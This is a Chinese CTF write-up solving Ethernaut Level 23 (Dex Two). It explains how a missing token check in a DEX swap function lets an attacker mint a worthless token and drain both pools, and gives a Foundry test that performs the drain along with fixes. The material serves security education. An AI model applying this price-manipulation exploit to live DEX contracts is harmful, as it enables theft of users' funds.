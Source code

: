 ```yaml
---
title: 'Ethernaut Level 23: Dex Two - 任意代币对价格操纵'
date: 2025-01-25 17:00:00
updated: 2025-01-25 17:00:00
categories:
  - Ethernaut 系列
  - 高级攻击篇 (21-25)
tags:
  - Ethernaut
  - Foundry
  - DEX
  - Price Manipulation
  - Token Validation
  - 智能合约安全
series: Ethernaut Foundry Solutions
excerpt: "利用DEX合约中缺失的代币白名单验证，通过引入一个我们自己创建的、价值极低的代币来操纵交易对的价格。学习如何用一个毫无价值的代币换取池中所有有价值的代币，掌握 Dex Two 关卡的破解技巧。"
---
```


# 🎯 Ethernaut Level 23: Dex Two - 任意代币对价格操纵

> **关卡链接**: [Ethernaut Level 23 - Dex Two](https://ethernaut.openzeppelin.com/level/23)  
> **攻击类型**: 价格操纵 / 缺少输入验证  
> **难度**: ⭐⭐⭐☆☆

## 📋 挑战目标

与上一关类似，你需要与一个 `Dex` 合约交互。但这次的目标更具挑战性：你需要同时耗尽 `Dex` 合约中 `Token1` **和** `Token2` 的全部流动性。

-   **初始状态**: 
    -   Player: 10 TKN1, 10 TKN2
    -   Dex: 100 TKN1, 100 TKN2

![Dex Two Requirements](https://ethernaut.openzeppelin.com/imgs/BigLevel23.svg)

## 🔍 漏洞分析

`DexTwo` 合约的代码与上一关的 `Dex` 几乎完全相同，但有一个微小却致命的改动。在 `swap` 函数中，一行关键的验证代码被移除了：

```solidity
// This line was present in Dex, but is missing in DexTwo
// require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

这行代码原本用于确保交易只在 `token1` 和 `token2` 之间进行。由于它被移除了，`DexTwo` 的 `swap` 函数现在可以接受**任何**符合ERC20标准的代币作为交易对的一方。

这就为我们打开了攻击的大门。我们可以创建一个我们自己控制的、毫无价值的“攻击代币”（我们称之为 `Token3`），并用它来操纵与 `Token1` 和 `Token2` 的交易价格。

### 攻击流程

我们的策略是利用我们自己创建的 `Token3` 作为媒介，以极低的价格换取 `Dex` 池中所有的 `Token1` 和 `Token2`。

1.  **创建并分发攻击代币**: 我们创建一个新的ERC20代币 `Token3`，并给自己铸造大量的 `Token3`。

2.  **为 `Token3` 提供“流动性”**: 我们向 `DexTwo` 合约发送极少量的 `Token3`（例如，1个）。现在 `DexTwo` 合约中 `Token3` 的余额为1。

3.  **第一次交换 (Token3 -> Token1)**:
    *   我们现在用 `Token3` 交换 `Token1`。池中 `Token1` 的余额是100，`Token3` 的余额是1。价格比为 100:1。
    *   我们只需要发送1个 `Token3`，就可以根据价格公式换取 `(1 * 100) / 1 = 100` 个 `Token1`。
    *   交换后，`Dex` 池中的 `Token1` 被全部换走。

4.  **第二次交换 (Token3 -> Token2)**:
    *   现在池中 `Token2` 的余额是100，`Token3` 的余额是2（我们第一次交换时转入了1个，现在又转入了1个）。价格比为 100:2，即 50:1。
    *   我们发送2个 `Token3`，就可以换取 `(2 * 100) / 2 = 100` 个 `Token2`。
    *   交换后，`Dex` 池中的 `Token2` 也被全部换走。

通过引入一个我们完全控制的第三方代币，我们成功地操纵了价格，并用极小的代价（总共3个我们自己随意铸造的 `Token3`）清空了整个 `Dex` 池。

## 💻 Foundry 实现

### Foundry 测试代码

测试代码将模拟上述的攻击流程：创建新代币，并用它来耗尽 `DexTwo` 的流动性。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/23_DexTwo.sol";

contract DexTwoTest is Test {
    DexTwo instance;
    address player;
    SwappableTokenTwo token1;
    SwappableTokenTwo token2;

    function setUp() public {
        player = vm.addr(1);
        instance = new DexTwo();

        // 部署并设置初始代币
        token1 = new SwappableTokenTwo(address(instance), "Token 1", "TKN1", 110);
        token2 = new SwappableTokenTwo(address(instance), "Token 2", "TKN2", 110);
        instance.setTokens(address(token1), address(token2));

        // 添加流动性并发送初始代币给 player
        token1.approve(address(instance), 100);
        token2.approve(address(instance), 100);
        instance.add_liquidity(address(token1), 100);
        instance.add_liquidity(address(token2), 100);
        token1.transfer(player, 10);
        token2.transfer(player, 10);
    }

    function testDexTwoAttack() public {
        vm.startPrank(player);

        // 1. 部署我们自己的恶意代币
        SwappableTokenTwo attackToken = new SwappableTokenTwo(address(instance), "Attack Token", "ATK", 400);
        attackToken.approve(address(instance), type(uint256).max);

        // 2. 向 Dex 提供极少量的恶意代币流动性
        attackToken.transfer(address(instance), 1);

        // 3. 用1个恶意代币换走所有 Token1
        uint256 dexT1Balance = token1.balanceOf(address(instance));
        uint256 swapAmount1 = instance.get_swap_price(address(attackToken), address(token1), 1);
        assertEq(swapAmount1, dexT1Balance, "Price should allow draining Token1");
        instance.swap(address(attackToken), address(token1), 1);

        // 4. 用2个恶意代币换走所有 Token2
        uint256 dexT2Balance = token2.balanceOf(address(instance));
        uint256 swapAmount2 = instance.get_swap_price(address(attackToken), address(token2), 2);
        assertEq(swapAmount2, dexT2Balance, "Price should allow draining Token2");
        instance.swap(address(attackToken), address(token2), 2);

        // 5. 验证 Dex 的两种代币都已被耗尽
        bool drained = token1.balanceOf(address(instance)) == 0 && token2.balanceOf(address(instance)) == 0;
        assertTrue(drained, "Dex should be drained of both tokens");

        vm.stopPrank();
    }
}
```

### 关键攻击步骤

1.  **识别漏洞**: 发现 `swap` 函数缺少对交易代币的白名单验证。
2.  **创建攻击代币**: 部署一个我们自己控制的ERC20代币。
3.  **注入虚假流动性**: 向 `DexTwo` 合约发送极少量的攻击代币，以建立一个极不平衡的交易对。
4.  **耗尽Token1**: 用少量攻击代币交换 `DexTwo` 中所有的 `Token1`。
5.  **耗尽Token2**: 再次用少量攻击代币交换 `DexTwo` 中所有的 `Token2`。

## 🛡️ 防御措施

1.  **严格的输入验证**: 这是最关键的防御措施。合约必须严格验证所有外部输入，特别是那些决定核心逻辑的参数，如本例中的代币地址。

    ```solidity
    // 修复建议：加回被移除的验证
    function swap(address from, address to, uint amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        // ... a reste of the swap logic
    }
    ```

2.  **使用白名单**: 对于允许哪些代币参与交互的系统，应维护一个可信代币的白名单，并对所有传入的代币地址进行检查。

## 🔧 相关工具和技术

-   **输入验证**: 智能合约安全中最基本也是最重要的原则之一。永远不要相信来自外部的输入。
-   **代币白名单**: 一种常见的安全模式，用于限制系统只与预先批准的、受信任的代币合约进行交互。

## 🎯 总结

**核心概念**:
-   缺少对输入参数（如代币地址）的验证是一个严重的安全漏洞。
-   在去中心化交易所（DEX）中，如果允许任意代币参与交易，攻击者可以通过引入自己控制的代币来轻易地操纵价格。

**攻击向量**:
-   创建一个新的、由攻击者完全控制的ERC20代币。
-   将这个新代币与目标代币在一个缺乏验证的DEX中形成交易对。
-   利用极不平衡的流动性比例，以极低的价格换取所有目标代幣。

**防御策略**:
-   对所有函数的输入参数进行严格的白名单或有效性检查。
-   确保核心业务逻辑（如交易）只能在预期的、受信任的资产之间进行。

## 📚 参考资料

-   [SWC-107: Unchecked External Call](https://swcregistry.io/docs/SWC-107) (虽然本例是缺少验证，但根源都是对外部输入/合约的不信任)
-   [Secureum: Input Validation](https://secureum.substack.com/p/security-pitfalls-and-best-practices-101)
